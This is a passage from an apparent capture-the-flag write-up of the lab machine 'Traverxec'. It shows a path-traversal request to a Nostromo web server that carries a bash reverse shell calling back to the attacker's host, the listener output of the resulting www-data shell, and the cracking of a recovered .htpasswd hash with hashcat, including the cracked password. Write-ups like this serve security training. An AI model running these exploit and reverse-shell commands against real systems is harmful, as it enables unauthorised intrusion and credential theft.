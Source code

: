 

### Shell

Now that I can run commands, I'll run a command to get a shell:



    root@kali# curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'



That command just hangs, but on a fresh `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53000.
    bash: cannot set terminal process group (458): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@traverxec:/usr/bin$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Priv: www-data --\> david

### Find SSH Key

After some cursory looks around, I decided to upload and run
[LinEnum](https://github.com/rebootuser/LinEnum). One of the things that
it pointed out was a `.htpasswd` file:



    [-] htpasswd found - could contain passwords:
    /var/nostromo/conf/.htpasswd
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/  



I pulled that back and started cracking it with `hashcat`:



    root@kali# time hashcat -m 500 htpasswd /usr/share/wordlists/rockyou.txt --username --force
    ...[snip]...
    $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
    ...[snip]...



While in the `/var/nostromo/conf` directory, I started taking a look at
the configuration file, `nhttpd.conf`:



    www-data@traverxec:/var/nostromo/conf$ ls -a 
    .  ..  .htpasswd  mimes  nhttpd.conf

